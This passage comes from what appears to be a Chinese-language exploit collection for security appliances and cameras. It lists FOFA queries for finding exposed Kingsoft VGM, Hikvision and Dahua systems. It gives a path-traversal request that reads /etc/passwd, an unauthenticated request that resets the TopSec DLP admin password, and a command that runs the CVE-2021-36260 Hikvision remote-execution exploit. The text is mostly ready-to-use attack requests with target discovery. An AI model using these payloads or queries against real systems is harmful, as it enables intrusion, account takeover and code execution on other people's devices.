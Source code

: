 #### 金山 VGM防毒墙 

FOFA：

```
"金山VGM"
```

##### downFile.php 任意文件读取

poc：

```
/downFile.php?filename=../../../../etc/passwd
```

### 0x02 数据防泄漏系统

#### 天融信数据防泄漏系统

##### 越权修改管理员密码

无需登录权限,由于修改密码处未校验原密码,且 /?module=auth_user&action=mod_edit_pwd 接口未授权访问,造成直接修改任意用户密码。 默认 superman 账户 uid 为 1。

```
POST /?module=auth_user&action=mod_edit_pwd

Cookie: username=superman;
uid=1&pd=Newpasswd&mod_pwd=1&dlp_perm=1
```

## 四、其他

### 0x01 网络摄像机

#### HIKVISION DS/IDS/IPC 等设备

FOFA：

```
"671-1e0-587ec4a1"
```

##### 远程命令执行 CVE-2021-36260 ✅

```
python CVE-2021-36260.py --rhost 127.0.0.1 --rport 8081 --cmd "ls"
```

### 0x02 综合管理平台

#### 大华 智慧园区综合管理平台 

FOFA：

```
app="dahua-智慧园区综合管理平台"
```
